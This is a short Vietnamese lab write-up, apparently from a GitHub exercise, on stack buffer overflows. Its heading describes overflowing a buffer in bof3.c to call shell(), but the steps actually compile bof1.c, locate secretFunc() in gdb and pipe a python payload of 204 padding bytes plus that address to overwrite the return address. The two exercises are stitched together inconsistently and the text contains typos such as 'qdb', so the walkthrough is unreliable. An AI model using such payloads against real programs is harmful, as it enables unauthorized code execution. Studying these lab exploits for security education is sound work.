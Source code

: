 ### Chi tiết Buffer-overflow trên file bof3.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm shell()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm fget(buf, 133, stdin). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến buf xuống phần biến func() và cái phần được tràn vào biến func() là địa chỉ của hàm shell() thì lúc đó hàm shell() sẽ được gọi


![image](https://github.com/user-attachments/assets/061f6e08-a811-4b5e-9e22-e625c0b706a3)
***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm secretFunc()

  Vào gdb:
  ```
  qdb -q bof1.out  
  ```
  Xem địa chỉ hàm
  ```
  disas secretFunc
  ```
  ![image](https://github.com/user-attachments/assets/3c883274-5ee1-44a6-a82a-c0161b96d775)

  => Địa chỉ hàm secretFunc() là 0x0804846b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/4d515abb-0962-408a-912b-f1e2d36ce6b2)


  ta thấy mảng array chứa tối đa 200 bytes và ebp là 4 bytes nên ta cần truyền vào input 204 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm secretFunc() nữa để đè lên return addr là ta có thể gọi hàm này
* Bước 4: Thực hiền truyền input
  ```
  echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/eea0cbe7-a3a0-48b8-b9bc-8d79118d33b2)

  => Thành công

